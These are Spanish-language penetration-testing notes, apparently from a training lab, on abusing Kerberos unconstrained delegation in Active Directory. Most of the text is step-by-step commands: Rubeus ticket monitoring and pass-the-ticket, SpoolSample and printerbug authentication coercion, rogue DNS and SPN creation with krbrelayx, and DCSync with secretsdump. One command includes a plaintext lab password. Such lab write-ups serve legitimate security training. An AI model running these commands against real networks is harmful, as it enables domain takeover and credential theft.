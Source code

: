 # Sobre computadoras

## Esperando la autenticación de un usuario privilegiado

Si logramos comprometer un servidor que tiene habilitada la Unconstrained delegation, y posteriormente un administrador de dominio inicia sesión, podremos extraer su TGT y usarlo para movernos lateralmente y comprometer otras máquinas, incluidos los controladores de dominio.

Rubeus es la herramienta ideal para este ataque. Como administrador local, Rubeus puede ejecutarse para supervisar los tickets almacenados. Si se encuentra un TGT en un ticket TGS, Rubeus nos lo mostrará.

### 1)Monitoreo de tickets
Ponemos a Rubeus en modo monitoreo esperando que los usuarios se conecten al servidor.

    .\Rubeus.exe monitor /interval:5 /nowrap

### 2) Usamos el ticket para pediro otro ticket con otro servicio


    .\Rubeus.exe asktgs /ticket:<ticket> /service:<servicio>/dc01.INLANEFREIGHT.local /ptt

Si esto no funciona:

    .\Rubeus.exe renew /ticket:<ticket> /ptt

Ahora podemos aprovechar este ticket para realizar acciones en el dc01 como el usuario privilegiado.

## Aprovechando el error de impresora


Es muy similar a la anterior, simplemente que aprovechamos una falla en el MS-RPRN (Print system remote protocol) que puede obligar a un servidor a autenticarse frente a otro


Para esto utilizaremos la herramienta: **SpoolSample**:

    https://github.com/leechristensen/SpoolSample

### 1) Ponemos el rubeus en modo monitor:

    .\Rubeus.exe monitor /interval:5 /nowrap

### 2) Corremos SpoolSample

    .\SpoolSample.exe <target> <our_server>

### 3) Conseguimos el ticket y continuamos con el ataque anterior.

Si el ticket es del DC, una vez importado, lo renovamos y con mimikatz podemos realizar un DCSync ;)



# Sobre los usuarios

En el caso de los usuarios, necesitaremos tener control del user y permisos de **GenericWrite**, **WriteSPN** o **WriteProperty** sobre el atributo **ServicePrincipalName**.

El ataque consiste en crear un servicio a nombre del usuario con Unconstrained Delegations para que este herede dichos privilegios, de esta manera, los usuarios o computadoras que  se conecnten a este servicio entregarán su ticket.

para esto usamos las herramientas del repo:

    git clone -q https://github.com/dirkjanm/krbrelayx; cd krbrelayx

### 1) Creamos un DNS Falso

En la máquina atacante creamos un DNS falso:

    python dnstool.py -u dominio\\usuario -p contraseña -r roguecomputer.inlanefreight.local -d 10.10.14.2 --action add <ip-dc>
### Agregamos un SPN falso al usuario vulnerable para que comparta un servicio en el DNS falso

De esta manera el servicio heredará sus privilegios de delegación

    python addspn.py -u dominio\\usuario -p contraseña --target-type samname -t sqldev -s CIFS/roguecomputer.inlanefreight.local dc01.inlanefreight.local

### 3) Ponemos a capturar los tickets

    python krbrelayx.py -s callum.dixon -p C@lluMDIXON

### 4) Forzamos al DC o a otro user a autenticarse contra el DNS falso

    python3 printerbug.py dominio/usuario:contraseña@IP_DC roguecomputer.inlanefreight.local
### 5) Con el ticket del DC hacemos DCSync

    export KRB5CCNAME=./DC01\$@INLANEFREIGHT.LOCAL_krbtgt@INLANEFREIGHT.LOCAL.ccache
    secretsdump.py -k -no-pass dominio/DC01$
